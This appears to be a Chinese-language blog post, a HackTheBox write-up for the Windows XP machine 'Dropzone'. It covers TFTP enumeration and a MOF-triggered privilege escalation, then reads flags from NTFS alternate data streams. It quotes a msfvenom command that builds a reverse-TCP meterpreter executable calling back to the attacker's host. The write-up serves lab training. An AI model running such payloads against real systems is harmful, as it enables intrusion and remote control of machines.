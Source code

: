 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qEsAoWmGBrJxtbO9Vcg9xw)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **75** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/139

靶机难度：中级（5.0/10）

靶机发布日期：2018 年 11 月 4 日

靶机描述：

Dropzone is an interesting machine that highlights a technique used by the Stuxnet worm. The discovery of NTFS data streams provides an additional challenge.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/wucQH64lHvpOxUzKZzgrk8rOIbSiaoFokwT3HYichsCpM6ibw80Jw5WmZL4vQs947UAIP2l7bicjV6MJECFp51G6sQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

一、信息收集

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxCDqdsr7rRr9orVknssX1aOXVpqIjGyPSuTnk39EIV1bWj7LoSQ5m3A/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.90....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3Czicxdchm8Mnp6DNra92dKrlAplzQgw8OQFUf59xicOP8hqNxzoCaEonpEhQ/640?wx_fmt=png)

可以看到，不存在 TCP 服务... 看看 UDP

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3Czicxia4EKd0pXU1DOMgKIFRGZcwzTF1DKmxvSuQ7jVxicdFNpz8PEWnv28Tw/640?wx_fmt=png)

nmap 发现了 69 的 tftp 服务开放着...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxJnUaczuLRl2fS5aK5ricZnfQSrSKmvibkEMrEcTEA9wHeC1LG5XAIFng/640?wx_fmt=png)

竟然只开放了 tftp 服务，这里可以进行查询命令帮助... 开始找问题收集信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxboP6ePMXdcibwRrwKZVTxZniaibEHgvwKkdxs2UiafROiadldicic3GeB1ibKg/640?wx_fmt=png)

这里尝试下载，发现权限是开放着，是名称打错的原因？试试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxD4Q2FmiaNNwwss1eW5ibzIDoyhe5B07HFmesicXOt01maa3vds05Wd40Q/640?wx_fmt=png)

直接尝试下载 boot.ini 这是 windows 系统运行参数的文件... 可以看到这是 windows xp 系统...

XP 系统，这里可以开始提权了...GO

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

二、提权

  

![](https://mmbiz.qpic.cn/mmbiz_png/XxrR38Omj5OU35wZiblPezbUu0aFe8g7adFDiar2por60icw9uh1XSFlykibc3jzCByDbG1hhhxNEk13P15Ofiam6Mg/640?wx_fmt=png)

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_gif/z0LeJkZyUa7niaILpQLyj2SXVMFWPGRlKJVgNJ6OUubgicSlhy5yoOrKmqJ2dcAicOTFYG7FUAxFCCbYwz70WcaoQ/640?wx_fmt=gif)

这里利用 MSF 进行提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxvekrtDrrSTyE4ic1KURxAIppAcjZDWKW2mI42DyRE6UjLxBp6yRL6jw/640?wx_fmt=png)

```
git clone https://github.com/Sayantan5/Dropzone
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.11 lport=443 -f exe > dayu.exe
```

这里利用 msfvenom 生成. exe 的 shellcode... 然后利用 hack.mof 触发 shellcode... 这里. mof 是某位大神利用 wbemexec.rb 编码写的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxTd6Y17RTXicCYL8HSWIscDhbxwyTY2ibfx9GgQY6CKgxHiclyObJaGgkg/640?wx_fmt=png)

前提要将 Mode 模式转换成 octet...

然后上传 dayu.exe，成功上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxARB7j3Sblb0NEAO2Lgr7rshkFQiadb2aP7iaM8HTIoKnHoxxfttJg4Lg/640?wx_fmt=png)

可以看到直接提权成功... 这是 5.0 的分值的靶机... 这么容易？？？？？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3Czicx9vGkqMoVxsXS9icFZxvGRp5qZ35WLm5qjluVD8LYCumsQPJzpNEtErg/640?wx_fmt=png)

我觉得没这么容易，不给下载... 进去看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxVKeaxaGq9yQ2vn4VmwRgBDFiaCI3SiaLPx7fwQn3d5MSJm9RDcgdjEog/640?wx_fmt=png)

果然...It's easy, but not THAT easy...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxcIpWqic8031sD5kGLp306oNtNXIiaA0woMa8rjnYsYsdCEQjdic3FEMzw/640?wx_fmt=png)

这里真的恶心...10~1 分钟不等之间会自动退出 shell... 不稳定...

还好我用了 MSF 进行监听...

这里可以发现一个 flags 下的. txt 文本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3CzicxxceCXiamWfGY91jTiciaKhJHZuUC6IYoGQRJBwQIRzkZ78FTDntAx4icnA/640?wx_fmt=png)

再次尝试查看，制动关闭的 shellcode....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3Czicxu03R6rK7icOoPTAFkicFCqibCiczibBcsazBtgic8zMib4pP6kjic6Dgo708cw/640?wx_fmt=png)

这里需要利用 Streams 查看数据信息流...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNr2p7Exfvkm1NqZyic3Czicx4xk1nSiarkNgXePd7sNhEnx8bkfGARUHgiaA0IYo9VE8JDmLiadm2AVpg/640?wx_fmt=png)

利用 tftp 上传... 我快吐了...HTBwindows 服务器最近很卡很卡... 可以看到我上传了 527 秒...

  

等了这么久我竟然没想到利用 smbserver 开启 smb 共享，然后在靶机里 \\10.10.14.11\... 下载 streams.exe... 可能太累了...

成功读取数据流获得了 root/user 信息...

太卡了，可能是 HTB 的 windows 服务器问题，也有人反馈了说很卡...

还有就是只开放一个端口，有时候会有别的玩家进来和我在同一个屋檐下... 不冲突都难...

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/wucQH64lHvpOxUzKZzgrk8rOIbSiaoFokwT3HYichsCpM6ibw80Jw5WmZL4vQs947UAIP2l7bicjV6MJECFp51G6sQ/640?wx_fmt=gif)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)